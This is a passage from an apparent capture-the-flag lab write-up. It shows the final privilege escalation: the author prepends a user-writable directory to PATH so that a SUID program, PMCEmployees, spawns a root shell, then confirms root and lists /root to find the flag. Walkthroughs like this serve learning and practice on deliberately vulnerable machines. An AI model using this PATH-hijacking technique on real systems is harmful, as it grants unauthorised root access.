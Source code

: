```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ export PATH=/home/laboratoryadmin/autoScripts:$PATH
```
- Now if we run PMCEmployee we'll have a root shell.

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees 
root@laboratoryuser:~/autoScripts# id
uid=0(root) gid=1002(laboratoryadmin) groups=1002(laboratoryadmin)
root@laboratoryuser:~/autoScripts# whoami
root
root@laboratoryuser:~/autoScripts# cd /root/
root@laboratoryuser:/root# ls -la
total 44
drwx------  5 root root 4096 Dec 18  2023 .
drwxr-xr-x 19 root root 4096 Dec 16  2023 ..
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Dec 16  2023 .local
-rw-------  1 root root 2959 Dec 17  2023 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root    7 Dec 17  2023 .python_history
-rw-r--r--  1 root root   17 Dec 18  2023 root.txt
drwx------  3 root root 4096 Dec 16  2023 snap
drwx------  2 root root 4096 Dec 16  2023 .ssh
-rw-r--r--  1 root root  176 Dec 17  2023 .wget-hsts
root@laboratoryuser:/root#
```

- And Finally We have the ROOT Flag!! 🚨
